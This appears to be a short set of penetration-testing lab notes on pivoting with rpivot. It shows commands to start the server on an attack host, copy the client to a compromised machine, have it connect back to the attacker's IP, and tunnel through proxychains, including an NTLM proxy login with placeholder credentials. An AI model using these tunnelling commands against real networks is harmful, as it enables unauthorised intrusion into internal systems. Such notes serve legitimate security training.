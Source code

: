 downloaded from github in Desktop

the pivot server will connect back to the attack host


On attack host: 
```shell-session
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

Transfer rpivot to pivot and run client.py from pivot
```shell-session
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

```shell-session
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```

Can use proxychains to browse target webserver
```shell-session
proxychains firefox-esr 172.16.5.135:80
```
ntlm auth: 
```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```